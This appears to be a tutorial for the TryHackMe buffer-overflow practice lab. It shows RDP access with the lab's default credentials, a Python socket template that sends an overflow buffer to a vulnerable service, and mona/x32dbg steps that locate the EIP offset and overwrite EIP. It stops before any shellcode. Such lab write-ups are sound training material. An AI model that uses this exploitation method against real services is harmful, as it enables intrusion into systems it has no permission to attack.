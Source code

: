 # Introduction
We'll be solving 3 tryhackme's stack buffer overflows from 0.

First of all, the web mentioned: https://tryhackme.com/room/bufferoverflowprep

We'll just take three of ten tasks.

On your Windows virtual machine, download the OpenVPN app and your config file and connect to the TryHackMe lab.
We're using Windows to use the next debugger: https://github.com/therealdreg/x64dbg-exploiting

# Preparation
Now, download wfreerdp from: https://ci.freerdp.com/job/freerdp-nightly-windows/arch=win32,label=vs2013/

[![7eaca6a835462d61e6e728ee31e68002.png](https://i.postimg.cc/FzGDXYrC/7eaca6a835462d61e6e728ee31e68002.png)](https://postimg.cc/ZvBrrKy6)

Use this to get the files we need from the tryhackme's lab:

1- Open a cmd.

2- Go to the wfreerdp.exe location.

3- Execute the next command, and wait it to prompt: ```wfreerdp.exe /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea```

[![f5c01f04067b7dfd594707974a929134.png](https://i.postimg.cc/2SXj8G9r/f5c01f04067b7dfd594707974a929134.png)](https://postimg.cc/mPCWmYG5)

We're in!

Now compress the folder named: ```vulnerable-apps```, it should be like this: ```vulnerable-apps.zip```

Open a cmd, go to Desktop and open a python server: ```c:\Python27\python.exe -m SimpleHTTPServer```

[![735d39e14aff853c4697b71bf50489c1.png](https://i.postimg.cc/bw60YXjr/735d39e14aff853c4697b71bf50489c1.png)](https://postimg.cc/PCwvKRJn)

In our Windows host, go to ```http://MACHINE_IP:8000/vulnerable-apps.zip``` and that's it, we have everything we need.

# Using x32dbg

Open x32dbg.exe and open the ```oscp.exe``` included in the ```vulnerable-apps``` folder.

[![fe4c3e7b918b16a6f0426d7cf74babd2.png](https://i.postimg.cc/8zmDnrYQ/fe4c3e7b918b16a6f0426d7cf74babd2.png)](https://postimg.cc/Yv0Jvjkb)

Once opened, make some clicks until we ensure the program is running succesfully.

It should be like this:

[![bc23c133126932d97e13e5224d94db87.png](https://i.postimg.cc/PJQ2kTnx/bc23c133126932d97e13e5224d94db87.png)](https://postimg.cc/ct6QRqHy)

Open your notepad (classic Windows NotePad or NotePad ++, it doesn't matter) and copy this script to exploit the ```oscp.exe```:

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We're ready to exploit.

# Exploiting OVERFLOW1

With our copied script, rename it as ```exploit1.py``` 

We need to import mona and its config with the next command line:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```

NOTE: We need to use this command line everytime we reboot our Windows!

First of all we're going to fill the stack with a cyclic pattern to see where the EIP is.

Before this, go to ```log``` and at the command line paste: ```mona.mona("pattern_create 2000")```

It will create a cyclic pattern of 2000, open your ```exploit.py``` and paste it at the ```payload``` line.

[![a8ecdbefeaba0a391173003b2ddd8413.png](https://i.postimg.cc/153nyspq/a8ecdbefeaba0a391173003b2ddd8413.png)](https://postimg.cc/xqBTRrpf)

[![29de62a2769cf27ea4601fae99796222.png](https://i.postimg.cc/C1v07Td3/29de62a2769cf27ea4601fae99796222.png)](https://postimg.cc/Vrb2shqg)

Save your script and run it with python3: ```python3 exploit.py``` Give it many tries until x32dbg receive the response.

NOTE: Sometimes programs might crash if we use a big pattern, give it some tries if it happens with lower patterns.

Once it receives our exploit, see where EIP is, mine is: ```6F43396E```

[![eba3a8e41c04dccfab085ba93fd2a3aa.png](https://i.postimg.cc/zf83PNXv/eba3a8e41c04dccfab085ba93fd2a3aa.png)](https://postimg.cc/68b9yDZx)

Then make a search of the pattern indicating EIP: ```mona.mona("pattern_offset EIP")```

Great! We have 1978 A's until EIP. Now fill the EIP with 4 B's (insert them at the ```retn``` line)

[![99559cf5d7b79579757cffd6e3acfef8.png](https://i.postimg.cc/65pkcmXK/99559cf5d7b79579757cffd6e3acfef8.png)](https://postimg.cc/BtR7QNb7)

Save your script and restart your x32dbg.

NOTE: Everytime you modify and run the program you must restart!

[![fd93562e56d146d6650aa3da1887ef18.png](https://i.postimg.cc/NMP6cF5p/fd93562e56d146d6650aa3da1887ef18.png)](https://postimg.cc/62n2V9Vv)

EIP has the B's in it! And we are right at the top of the stack (```ESP```)

[![8c085382a900fc64f7b2af19c23e0001.png](https://i.postimg.cc/qRf6rFr6/8c085382a900fc64f7b2af19c23e0001.png)](https://postimg.cc/yJP8Xvk7)

